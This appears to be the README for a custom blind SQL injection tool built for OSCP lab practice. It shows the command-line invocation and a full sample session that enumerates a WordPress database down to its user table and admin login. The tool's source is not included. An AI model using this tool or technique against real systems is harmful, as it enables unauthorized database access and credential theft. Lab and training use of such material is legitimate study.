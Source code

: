 #### Use case

    This module is for blind SQL injection.
    SQLmap is a better andmore robust alternative, however,
    we are not allowed to use automation tools on the OSCP.
    Therefore, I created this custom module for my own usage.

#### Sample module wbsql
    wbsql -rh 10.11.1.251 -if burpRequest.txt -t "t')" -wd "/**/" -co "#" -hp 127.0.0.1:8080 -pps 11
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 1
    Total time: 12.04956007 seconds
    Database version: 5.7.27-0ubuntu0.18.04.1
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 2
    Total time: 8.15279603004 seconds
    Current database name: wordpress
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 3
    Total time: 27.0059490204 seconds
    Databases:
    information_schema
    mysql
    performance_schema
    sys
    wordpress

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 4
    Enter a database name: wordpress
    Total time: 1.13 minutes
    Tables in wordpress:
    wp_commentmeta
    wp_comments
    wp_links
    wp_options
    wp_postmeta
    wp_posts
    wp_term_relationships
    wp_term_taxonomy
    wp_termmeta
    wp_terms
    wp_usermeta
    wp_users

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 5
    Enter a database name: wordpress
    Enter a table name: wp_users
    Total time: 51.7088720798 seconds
    Columns in wordpress.wp_users:
    ID
    user_login
    user_pass
    user_nicename
    user_email
    user_url
    user_registered
    user_activation_key
    user_status
    display_name

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 6
    Enter a database name: wordpress
    Enter a table name: wp_users
    Enter a column name: user_login
    Total time: 7.48961114883 seconds
    Row values for user_login in wordpress.wp_users:
    admin

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): exit
